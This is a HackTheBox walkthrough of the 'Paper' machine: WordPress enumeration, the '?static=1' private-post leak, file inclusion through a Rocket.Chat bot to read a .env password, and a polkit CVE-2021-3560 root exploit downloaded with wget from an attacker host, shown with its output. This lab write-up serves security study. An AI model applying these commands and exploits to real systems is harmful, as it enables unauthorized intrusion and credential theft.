 ```yaml
---
title: HackTheBox - Paper 
categories: [HackTheBox, HTB-Linux]
date: 2022-06-17
tags: [exploit/file-inclusion/lfi, tcp/80-http/cms/wordpress]
img_path: /Writeups/HackTheBox/Linux/Paper/images/
image:
  src: Pasted%20image%2020220620160449.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Recon

## TCP/80 (HTTP)
### FFUF
- No files enumerated

# Initial Foothold

## TCP/80 (HTTP) - Wordpress
1. No files enumerated by fuzzing
2. Intercept w/ burpsuite to look for hints/clues
	![](Pasted%20image%2020220617224737.png)
	- `office.paper` 
	- `X-Backend-Server`
	>x-backend-server header is **used to return the name of the back end webserver that may sit behind load balancer server**.
3. Add `office.paper` to `/etc/hosts`
4. Proceed to `http://office.paper`
	![](Pasted%20image%2020220617232959.png)
	- Running `wordpress`
5. View posts, it could give us hints/clues on how to proceed
	- `Feeling Alone!`
		![](Pasted%20image%2020220618001238.png)	
		- There are secret content from drafts
6. Enumerate users in wordpress
	``` 
	wpscan --no-update --disable-tls-checks --url http://office.paper -e u -f cli-no-color 2>&1 | tee "/root/htb/paper/10.10.11.143/scans/tcp80/tcp_80_http_wp_user_enum.txt"
	```
	![](Pasted%20image%2020220618002334.png)
	![](Pasted%20image%2020220617233635.png)
	- `prisonmike`
	- `nick`
	- `creeedthoughts`
7. Enumerate all wordpress plugins aggressively
	```
	wpscan --no-update --disable-tls-checks --plugins-detection aggressive --plugins-version-detection aggressive --url http://office.paper -e ap -f cli-no-color 2>&1 | tee "/root/htb/paper/10.10.11.143/scans/tcp80/tcp_80_http_wp_plugin.txt"
	```
	![](Pasted%20image%2020220617235514.png)
	- Unable to find an exploit
7. Attempt to bruteforce the users, failed
8. Found an exploit for `wordpress 5.2.3`

	| Exploit Title                                                           | Path                      |
	| ----------------------------------------------------------------------- | ------------------------- |
	| WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts | multiple/webapps/47690.md |
9. Exploit `wordpress 5.2.3` to view private posts
	``` 
	# Add ?static=1
	http://office.paper/?static=1
	```
	![](Pasted%20image%2020220618002643.png)
	- `chat.office.paper`
10. Add `chat.office.paper` to `/etc/hosts`

## Exploiting the chatbot (Recyclops)
1. Proceed to `http://chat.office.paper/register/8qozr226AhkCHZdyY` and create a user
	![](Pasted%20image%2020220618002812.png)
2. After creating proceed to `General` Chat
	![](Pasted%20image%2020220618003738.png)
	- There is a bot called `recyclops`, users are able to ask questions
3. Before proceeding, find out more about Rocketchat 
	- [Build your own bot](https://developer.rocket.chat/bots/creating-your-own-bot-from-scratch)
	- [Hubot](https://developer.rocket.chat/bots/creating-your-own-bot-from-scratch)
4. After reading through the articles, we know that `.env` contains credentials
4. View files in sales directory
	![](Pasted%20image%2020220618020154.png)
4. Attempt LFI
	![](Pasted%20image%2020220618025322.png)
5. View files in current directory
	![](Pasted%20image%2020220618025512.png)
6. Files in `sale` & `sale_2` does not contain any interesting information
7. View files in previous directory
	![](Pasted%20image%2020220618025715.png)
	- Found a few interesting directories
		- `ssh`
		- `hubot`
8. View files in `.ssh`
	![](Pasted%20image%2020220618025811.png)
	- No files
9. View files in `hubot`
	![](Pasted%20image%2020220618025937.png)
10. View `.env`
	![](Pasted%20image%2020220618030026.png)
	- `recyclops:Queenofblad3s!23`

## TCP/22 (SSH)
1. SSH w/ recyclops:Queenofblad3s!23
	- Failed
2. Since we saw `user.txt` in dwight's home directory, try to login w/ dwight:Queenofblad3s!23
	![](Pasted%20image%2020220618031011.png)
3. User Flag
	``` 
	[dwight@paper ~]$ cat user.txt 
	c12e490e069d445a4aa1e9c0b1fc19e6

	```



# Privilege Escalation

## Root - Via CVE-2021-3560
1. Run linpeas
	![](Pasted%20image%2020220618041303.png)
	- CVE-2021-3560
2. [Download exploit](https://github.com/Almorabea/Polkit-exploit)
3. Run exploit
	``` 
	[dwight@paper ~]$ wget 10.10.14.16/CVE-2021-3560.py
	--2022-06-17 16:24:47--  http://10.10.14.16/CVE-2021-3560.py
	Connecting to 10.10.14.16:80... connected.
	HTTP request sent, awaiting response... 200 OK
	Length: 2434 (2.4K) [text/plain]
	Saving to: ‘CVE-2021-3560.py’

	CVE-2021-3560.py              100%[==============================================>]   2.38K  --.-KB/s    in 0s      

	2022-06-17 16:24:47 (169 MB/s) - ‘CVE-2021-3560.py’ saved [2434/2434]

	[dwight@paper ~]$ python3 CVE-2021-3560.py 
	**************
	Exploit: Privilege escalation with polkit - CVE-2021-3560
	Exploit code written by Ahmad Almorabea @almorabea
	Original exploit author: Kevin Backhouse 
	For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
	**************
	[+] Starting the Exploit 
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	id: ‘ahmed’: no such user
	[+] User Created with the name of ahmed
	[+] Timed out at: 0.00846603546908098
	Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
	Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
	Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
	Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
	Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
	[+] Timed out at: 0.007400750549632611
	[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

	We trust you have received the usual lecture from the local System
	Administrator. It usually boils down to these three things:

		#1) Respect the privacy of others.
		#2) Think before you type.
		#3) With great power comes great responsibility.

	bash: cannot set terminal process group (69981): Inappropriate ioctl for device
	bash: no job control in this shell
	[root@paper dwight]# whoami
	root
	[root@paper dwight]# 
	```
4. Root Flag
	``` 
	[root@paper ~]# cat root.txt 
	db09527a680428d7a411007464b83e7f
	```


